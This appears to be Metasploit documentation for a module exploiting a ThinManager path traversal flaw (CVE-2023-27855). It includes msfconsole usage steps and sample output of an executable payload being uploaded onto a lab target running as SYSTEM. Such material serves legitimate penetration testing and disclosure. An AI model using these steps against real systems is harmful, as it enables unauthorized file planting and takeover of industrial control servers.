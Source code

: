 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.0.1 (CVE-2023-27855) to upload an arbitrary file to the target
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/admin/networking/thinmanager_traversal_upload 
msf auxiliary(admin/networking/thinmanager_traversal_upload) > set RHOSTS <IP>
msf auxiliary(admin/networking/thinmanager_traversal_upload) > set LFILE <local file location>
msf auxiliary(admin/networking/thinmanager_traversal_upload) > set RFILE <remote file location>
msf auxiliary(admin/networking/thinmanager_traversal_upload) > run
```

This should upload the local file specified through LFILE to the server, as specified in RFILE.

## Options

### LFILE
Specifies the local file to upload to the remote server.

### RFILE
Specifies the remote file location where the file will be uploaded to.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(admin/networking/thinmanager_traversal_upload) > run
[*] Running module against 192.168.137.227

[*] 192.168.137.227:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.227:2031 - The service is running, but could not be validated.
[*] 192.168.137.227:2031 - Sending handshake...
[*] 192.168.137.227:2031 - Received handshake response.
[*] 192.168.137.227:2031 - Read 27648 bytes from /tmp/payload.exe
[*] 192.168.137.227:2031 - Uploading /tmp/payload.exe as /Program Files/Rockwell Software/ThinManager/payload.exe on the remote host...
[*] 192.168.137.227:2031 - Upload request length: 27752 bytes
[!] 192.168.137.227:2031 - No response received after upload.
[+] 192.168.137.227:2031 - Upload process completed. Check if '/Program Files/Rockwell Software/ThinManager/payload.exe' exists on the target.
[*] Auxiliary module execution completed
```
